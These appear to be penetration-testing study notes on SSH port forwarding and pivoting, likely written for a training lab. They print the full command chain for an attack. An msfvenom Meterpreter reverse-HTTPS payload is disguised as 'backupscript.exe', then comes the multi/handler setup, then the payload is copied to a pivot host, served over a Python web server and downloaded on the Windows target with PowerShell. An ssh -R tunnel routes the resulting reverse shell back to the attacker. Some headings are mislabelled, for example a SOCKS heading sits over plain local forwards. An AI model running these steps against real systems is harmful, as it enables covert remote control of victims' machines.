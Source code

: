 Port Forwarding using `ssh`
`ssh -L 22:localhost:80 user@serverB`

What this really means:
you're telling ssh service on the vitcim : 
"tunnel my requests to localhost:`<forwarded-port>` to your own localhost:`<service-port>`".

Let me explain with a concrete example:
1. When you hit localhost:22 on YOUR machine
2. SSH tunnels that request through the connection to serverB
3. ServerB then makes a connection to localhost:80 FROM ITS PERSPECTIVE
4. So serverB accesses its own port 80, not yours

## Forwarding Multiple Ports

Dynamic Port Forwarding with SSH and SOCKS Tunneling

```shell-session
ssh -L 1234:localhost:3306 -L 8080:localhost:80 ubuntu@10.129.202.64
```

## Reverse Port Forwarding
------------------------
![[Screenshots/Pasted image 20250110221008.png]]
#### Creating a Windows Payload with msfvenom

  Remote/Reverse Port Forwarding with SSH

```shell-session
msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080

Saved as: backupscript.exe
```


#### Configuring & Starting the multi/handler

```shell-session
msf6 > use exploit/multi/handler

msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8000
lport => 8000
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:8000
```

#### Transferring Payload to Pivot Host

```shell-session
scp backupscript.exe ubuntu@<ipAddressofTarget>:~/

backupscript.exe                                   100% 7168    65.4KB/s   00:00 
```

After copying the payload, we will start a `python3 HTTP server` using the below command on the Ubuntu server in the same directory where we copied our payload.

-------------------------------------------------
### Serving Reverse shell to victim via web server

  Remote/Reverse Port Forwarding with SSH

```shell-session
ubuntu@Webserver$ python3 -m http.server 8123
```

#### Downloading Payload on the Windows Target

```powershell-session
PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```


 listen on `<targetIPaddress>:8080` and forward all incoming connections on port `8080` to our msfconsole listener on `0.0.0.0:8000` of our `attack host`

```shell-session
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
example

```

After creating the SSH remote port forward, we can execute the payload from the Windows target. If the payload is executed as intended and attempts to connect back to our listener, we can see the logs from the pivot on the pivot host.





